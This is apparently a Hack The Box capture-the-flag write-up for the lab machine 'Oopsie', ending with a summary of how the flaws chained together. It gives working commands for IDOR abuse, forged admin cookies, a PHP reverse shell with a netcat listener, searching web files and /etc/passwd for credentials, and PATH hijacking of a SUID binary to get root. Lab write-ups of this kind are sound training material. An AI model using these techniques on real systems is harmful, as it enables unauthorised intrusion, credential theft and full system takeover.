



## Target: Oopsie
## Platform: HTB
## Date: 06/12/26
## Difficulty: Easy
## Tools: nmap, Burp Suite, gobuster, netcat, php-reverse-shell


### Recon 
 
 bash 
 nmap -sC -sV -Pn 10.129.76.27

 Scan found two open ports 
 - 22/tcp ssh (OpenSSH 7.6p1)
 - 80/tcp http (Apache 2.4.29)

 Visited the site and proxied traffic through Burpsuite. Burpsuite's passive sitemap revealed a  hidden login page /cdn-cgi/login, which was not located anywhere on the initial page. 

 Upon visiting the hidden page a login prompt was presented. Clicking the option titled "Login as Guest" under the credential prompt allowed access to a variety of user navigation options. 


### Exploitation

** IDOR + Broken Access Control **

Logged in as a guest. Noticed the URL contained an ID parameter: 
/cdn-cgi/login/admin.php?content=accounts&id=2

Changed id=2 to id=1 - server returned admin details without authorization check



Used Access ID to forge session cookies in browser console

```javascript
document.cookie = "role=admin; path=/" 
document.cookie = "user=34322; path=/"
```

Server accepted session cookies without additional verification -- broken access control. Allowed access to admin-restricted "Uploads" page

**PHP Reverse Shell**

Changed /usr/share/webshells/php/php-reverse-shell.php with tun0 ip. Uploaded the shell to the upload page. 

Set up listener:
```bash
nc -lvvp 1234
```

Triggered shell by visiting 

http://10.129.76.27/uploads/php-reverse-shell.php

Caught shell as www-data

---


### Post Exploitation

**Lateral Movement**

Upgraded shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Navigated to web server php files and searched for credentials 
```bash 
cd /var/www/html/cdn-cgi/login
cat * | grep -i passw*
```
Found the harcoded password MEGACORP_4dm1n!!

Checked available users on system 
```bash
cat /etc/passwd
```

Found user Robert. Hardcoded password failed.

Manually read db.php from web directory files 
```bash 
cat db.php
```
Found database credential record for robert. 
```bash
su robert
```
Successfuly Logged in. 

Found and Read user flag:
```bash 
ls /home/robert
cat /home/robert/user.txt
```



**Privilege Escalation**

Checked Robert's groups using id -- member of bugtracker 

Found SUID binary owned by the bugtracker group 
```bash
find / -group bugtracker 2>/dev/null
```

Ran bugtracker application to observe it's behavior. Tool outputs file content using path. Error messages shows cat is referenced without a full path -- revealing that bugtracker relies on directory search in $PATH

Created fake cat in /tmp with execute privileges
```bash
cd /tmp
echo "/bin/sh" > cat
chmod +x cat
```

 Prepended /tmp to Path so the fake cat gets found first
```bash
export PATH=/tmp:$PATH
```
Ran bugtracker from /tmp. Path called fake cat and spawned a shell as root

```bash
/usr/bin/bugtracker
```

Path was still hijacked so full path was used to read the root flag

```bash 
cd /root
/bin/cat /root/root.txt
```



### Key Takeaway

Each vulnerability directly opened the door for the next. The IDOR leaked the admin's access ID,  which allowed for Broken Access Control and access to the uploads page. Unrestricted file upload gave me a foothold within the system. Credentials hardcoded into source files allowed for lateral movement. The SUID binary calling commands without full paths allowed for me to PATH hijack to root. Each step's success was predicated on the previous, resulting in consequential and compounding access - starting from guest user to full root compromise.
